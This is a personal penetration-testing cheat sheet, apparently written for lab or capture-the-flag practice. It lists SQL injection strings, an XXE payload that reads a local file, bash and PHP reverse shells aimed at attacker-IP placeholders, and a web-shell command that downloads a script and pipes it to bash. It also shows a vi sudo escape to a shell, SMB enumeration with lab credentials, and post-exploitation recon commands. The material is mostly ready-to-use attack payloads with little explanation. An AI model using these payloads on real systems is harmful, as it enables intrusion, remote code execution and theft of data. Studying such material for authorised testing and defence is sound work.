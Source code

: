 ```yaml
---
Title: Penetration Test
description: 
spelling: 
---
```


## Flow

  VA -> PT

  1. Planning and Reconnaissance
  2. Scanning
  3. Gaining System Access
  4. Persistent Access
  5. Analysis and Reporting

## Injection

### SQL injection

``` shell
') or ( '1'='1
') or ( '1'=0
admin'||'1==1
1 or 1 = 1 UNION SELECT user
```

+ [SQL Injection Cheat Sheet | Invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
+ [Auto_Wordlists/sqli.txt at main · carlospolop/Auto_Wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/sqli.txt)

### XSLT Server Side Injection

example

``` xml
<?xml version = "1.0"?>
  <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
  <order>
    <quantity>1</quantity>
    <item>&test;</item>
    <address>address</address>
  </order>
```

### SSTI (Server Side Template injection)

Tools:

+ Java: [VikasVarshney/ssti-payload: SSTI Payload Generator](https://github.com/VikasVarshney/ssti-payload)
+ [[Day13] - SSTI - iT 邦幫忙](https://ithelp.ithome.com.tw/articles/10244403?sc=rss.iron)
+ [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### reverse shell

bash

``` shell
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```

php

``` php
<?php system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc [ip] [port] > /tmp/f; rm /tmp/f'); ?>
```

### Web shell

``` shell
Dysco.php?cmd=curl ${your_IP}:8000/shell.sh|bash
```

### Shell

``` shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### vi

``` shell
# is `sudo -l`
# User postgres may run the following commands on vaccine:
#     (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

# step 1
vi
:set shell=/bin/sh
:shell

# step 2
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:set shell=/bin/sh
:shell
```

## SSH tunnel

```shell
# windows

# linux
lsof -i -n | egrep '\<ssh\>'
```

## 139,445 - Pentesting SMB

``` shell
# show smb file
smbmap -R -u "hazard" -p "stealth1agent" -H $ip 
# get user list 
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py
python lookupsid.py hazard:stealth1agent@10.10.10.149

```

## Program Language

+ [The Deadline: PHP 安全攻防 - Injection 系列(1)：OS Command Injection](https://w1a2d3s4q5e6.blogspot.com/2016/09/php-injection-1os-command-injection.html?m=1)

## What can you do when you hack into the server

See below

``` shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PATH="/tmp:$PATH"; echo $PATH;

whoami
sudo -l
ps aux
id
groups
cat /etc/passwd | grep -v "nologin\|false\|sync"
timeout 5s ...
ss -tul


sudo PATH="/tmp:$PATH" /usr/bin/whoami
```
